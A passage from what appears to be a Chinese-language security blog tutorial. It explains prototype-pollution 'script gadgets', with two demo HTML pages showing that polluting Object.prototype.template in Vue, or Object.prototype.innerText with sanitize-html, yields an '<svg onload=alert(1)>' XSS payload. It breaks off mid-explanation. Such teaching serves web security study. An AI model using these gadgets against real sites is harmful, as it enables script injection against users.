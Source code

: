這些「只要我們污染了 prototype，就可以拿來利用的程式碼」叫做 script gadget，有一個 GitHub repo 專門搜集了這些 gadget：[Client-Side Prototype Pollution](https://github.com/BlackFan/client-side-prototype-pollution)，有些 gadget 可能是你想像不到的，我來示範一下（[demo 網頁](https://aszx87410.github.io/demo/prototype-pollution/vue.html)）：

``` html
<!DOCTYPE html>

<html lang="en">
<head>
  <meta charset="utf-8">
  <script src="https://unpkg.com/vue/dist/vue.js"></script>
</head>
<body>
  <div id="app">
    {{ message }}
  </div>
  <script>
    // 污染 template
    Object.prototype.template = '<svg onload=alert(1)></svg>';
    var app = new Vue({ 
      el: '#app',
      data: {
        message: 'Hello Vue!'
      }
    });
  </script>
</body>
</html>
```

一段看起來沒什麼的 Vue hello world，在我們污染了 `Object.prototype.template` 之後，就變成了 XSS，可以讓我們插入任意程式碼。

或是像下面這樣（[demo 網頁](https://aszx87410.github.io/demo/prototype-pollution/vue.html)）：

``` html
<!DOCTYPE html>

<html lang="en">
<head>
  <meta charset="utf-8">
  <script src="https://cdnjs.cloudflare.com/ajax/libs/sanitize-html/1.27.5/sanitize-html.min.js"></script>
</head>
<body>
  <script>
    Object.prototype.innerText = '<svg onload=alert(1)></svg>';
    document.write(sanitizeHtml('<div>hello</div>'))
  </script>
</body>
</html>
```

明明是做 sanitize 的 library，在污染了 `Object.prototype.innerText` 之後，就變成了 XSS 的好幫手。

為什麼會有這些問題出現呢？以上面的 `sanitize-html` 為例，是因為有這一段程式碼：
